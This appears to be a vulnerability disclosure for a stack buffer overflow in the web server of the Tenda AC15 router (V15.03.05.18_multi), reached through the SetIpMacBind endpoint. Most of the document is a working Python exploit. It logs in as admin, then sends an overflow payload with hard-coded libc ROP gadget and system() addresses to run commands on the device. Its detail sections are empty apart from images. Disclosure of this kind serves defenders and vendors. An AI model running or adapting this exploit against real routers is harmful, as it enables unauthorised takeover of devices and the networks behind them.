


Vendor of the products:　Tenda 

Reported by: 　　　　　     zhlu32@126.com

Affected products:　　　AC15 V15.03.05.18_multi

# Overview
An issue was discovered on Tenda AC15 V15.03.05.18_multi device. There is a buffer overflow vulnerability in the router’s web server – httpd. While processing the **/goform/SetIpMacBind** list parameter for a post request, the value is directly used in a strcpy to a local variable placed on the stack, which overrides the return address of the function. The attackers can construct a payload to carry out arbitrary code attacks.

# Exp

    import requests
    from urllib import parse
    from pwn import *
    
    main_url = "http://172.16.211.18:20080"
    
    def login_success():
        global password
        url = main_url + "/login/Auth"
        headers = {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'}
        data = {"username": "admin", "password": "ce80adc6ed1ab2b7f2c85b5fdcd8babc"}
        data = parse.urlencode(data)
    
        response = requests.post(url=url, headers=headers, data=data, allow_redirects=False)
        password = response.cookies.get_dict().get("password")
        if password is None:
            login_success()
        else:
            print(password)
    
    
    def poc():
        url = main_url + "/goform/SetIpMacBind"
    
        cmd = b'echo yab.....'
        libc_base = 0x40202000
        system_offset = 0x0005a270
        system_addr = libc_base + system_offset
        gadget1 = libc_base + 0x00018298
        gadget2 = libc_base + 0x00040cb8
    
        data = b'bindnum=1&list=' + b'A' * (428) + p32(gadget1) + p32(system_addr) + p32(gadget2) + cmd
        data = data.decode('latin1')
    
        headers = {'Cookie': 'password=' + password}
        response = requests.post(url=url, headers=headers, data=data, allow_redirects=False)
        print(response)
    
    
    if __name__ == "__main__":
        login_success()
        poc()

# Vul Details
## code in httpd

## Attack effect

